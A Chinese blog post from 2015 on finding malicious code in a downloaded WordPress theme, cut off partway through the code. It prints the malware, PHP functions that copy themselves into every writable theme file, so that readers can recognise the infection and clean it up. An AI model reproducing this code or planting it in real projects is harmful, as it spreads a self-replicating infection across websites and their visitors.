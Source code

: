 ```yaml
---
author: liqimore
categories:
  - 编程
comments: true
date: 2015-11-22 00:09:32+00:00
link: http://blog.codefog.com/bad-code-in-wordpress-theme.html
slug: bad-code-in-wordpress-theme
tags:
  - wordpress主题报错
  - wordpress恶意代码
  - Wordpress更换主题报错
title: Wordpress主题被插入恶意代码解决办法
url: /2015/11/22/bad-code-in-wordpress-theme/
wordpress_id: 16
---
```



今天无聊在WP官方主题库里面翻看，看到一个不错的主题，点击了一下预览按钮，之后我将其下载到本地（并没有设置为当前主题，只是收藏），但是在我下载完成后点击预览，出现了function.php报错，具体到了行，我翻看了一下这个主题的function.php文件，没发现异常（我当时居然没发现。。），然后google了一下报错信息（Fatal error: Cannot redeclare _check_isactive_widget()”、”_get_allwidgetcont” 之类），才知道自己中招了！！

下面是全部的恶意代码：

    
    <?php
    function _verifyactivate_widgets(){
    $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));$output="";$allowed="";
    $output=strip_tags($output, $allowed);
    $direst=_get_allwidgets_cont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
    if (is_array($direst)){
    foreach ($direst as $item){
    if (is_writable($item)){
    $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
    $cont=file_get_contents($item);
    if (stripos($cont,$ftion) === false){
    $comaar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
    $output .= $before . "Not found" . $after;
    if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
    $output=rtrim($output, "nt"); fputs($f=fopen($item,"w+"),$cont . $comaar . "n" .$widget);fclose($f);
    $output .= ($isshowdots && $ellipsis) ? "..." : "";
    }
    }
    }
    }
    return $output;
    }
    function _get_allwidgets_cont($wids,$items=array()){
    $places=array_shift($wids);
    if(substr($places,-1) == "/"){
    $places=substr($places,0,-1);
    }
    if(!file_exists($places) || !is_dir($places)){
    return false;
    }elseif(is_readable($places)){
    $elems=scandir($places);
    foreach ($elems as $elem){
    if ($elem != "." && $elem != ".."){
    if (is_dir($places . "/" . $elem)){
    $wids[]=$places . "/" . $elem;